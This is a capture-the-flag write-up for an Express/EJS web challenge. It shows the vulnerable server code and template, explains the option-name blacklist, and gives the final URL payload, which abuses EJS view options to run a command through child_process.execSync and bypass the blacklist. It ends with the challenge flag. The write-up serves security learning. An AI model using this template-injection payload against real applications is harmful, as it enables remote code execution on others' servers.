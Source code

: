 # 🎓🌎 Express JavaScript Security
> My first JavaScript project.

## About the Challenge
We were given a source code that contains some files with `.js` and `.ejs` extensions (You can download the file [here](dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909)). Here is the content of main.js

```js
const express = require('express');
const ejs = require('ejs');

const app = express();

app.set('view engine', 'ejs');

const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]

app.get('/', (req, res) => {
    return res.render('index');
});

app.get('/greet', (req, res) => {
    
    const data = JSON.stringify(req.query);

    if (BLACKLIST.find((item) => data.includes(item))) {
        return res.status(400).send('Can you not?');
    }

    return res.render('greet', {
        ...JSON.parse(data),
        cache: false
    });
});

app.listen(3000, () => {
    console.log('Server listening on port 3000')
})
```

This is a Node.js Express server application that uses the EJS templating engine to render views. The server listens on port 3000. The application has two main routes: the root route ('/') and the '/greet' route. When accessing the root route, it renders the 'index' view. When accessing the '/greet' route, it checks the query parameters, converts them to a JSON string, and looks for any blacklisted items within the data. If any blacklisted item is found, it returns a 400 response with the message "Can you not?". Otherwise, it parses the JSON data, renders the 'greet' view with the parsed data and disables caching. And then here is the content of `greet.ejs`

```js
<html>

<body>
    <h1 style="font-family: <%= font %>; font-size: <%= fontSize %>px;">
        Hello <%= name %>
    </h1>
</body>

</html>
```

## How to Solve?
At first, we are using this [website](https://eslam.io/posts/ejs-server-side-template-injection-rce/) to perform Remote Code Execution, but `outputFunctionName` is blacklisted. Therefore, we need to find another working payload. Finally, I found another working payload after doing some googling. (Check out this [website](https://blog.z3ratu1.cn/hxpCTF2022wp.html)). Here is the final payload I used to solve this challenge:

```
http://ejs.web.seetf.sg:1337/greet?name=test&font=test&fontSize=test&settings[view%20options][client]=1&settings[view%20options][escape]=%7B%7D.constructor.constructor(%22return%20process.mainModule.require(%27child_process%27).execSync(%27/readflag%27)%22)
```

I am executing the `/readflag` command to obtain the flag.

![flag](images/flag.png)

```
SEE{0h_n0_h0w_d1d_y0u_ch4ng3_my_0pt10ns}
```